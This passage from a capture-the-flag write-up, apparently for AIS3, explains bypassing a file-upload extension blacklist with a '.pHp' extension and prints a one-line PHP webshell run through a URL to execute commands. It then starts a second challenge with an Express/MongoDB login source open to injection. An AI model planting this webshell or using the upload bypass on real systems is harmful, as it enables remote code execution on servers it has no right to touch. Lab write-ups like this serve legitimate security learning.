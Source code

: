 Ok, we can bypass extension blacklist by `pHp`, and use dynamic function name to bypass second blacklist. Upload a webshell:

```php
<?php
$_GET['a']($_GET['b']);
```

And executed it with:
<http://chals1.ais3.org:8988/uploads/{MY_WEB_SHELL}.pHp?a=system&b=/rUn_M3_t0_9et_fL4g>
![](https://i.imgur.com/I7BW3jV.png)

### The Best Login UI

> Solved 32/292
> Interest ★★
> Difficulty ★
> New-knowledge ★★
> Be...st.. UI ☆

The question provide the source code, so that's it:

```javascript=
const express = require('express');
const bodyParser = require('body-parser');

const app = express();
app.use(bodyParser.urlencoded({ extended: true }));

const PORT = process.env.PORT || 3000;
const mongo = {
    host: process.env.MONGO_HOST || 'localhost',
    db: process.env.MONGO_DB || 'loginui',
};

app.get('/', (_, res) => {
    res.sendFile(__dirname + '/index.html');
});

app.post('/login', async (req, res) => {
    const db = app.get('db');
    const { username, password } = req.body;
    const user = await db.collection('users').findOne({ username, password });
    if (user) {
        res.send('Success owo!');
    } else {
        res.send('Failed qwq');
    }
});

const MongoClient = require('mongodb').MongoClient;

MongoClient.connect(mongo.host, (err, client) => {
    if (err) throw err;
    app.set('db', client.db(mongo.db));
    app.listen(PORT, () => console.log(`Listening on port ${PORT}`));
});

```
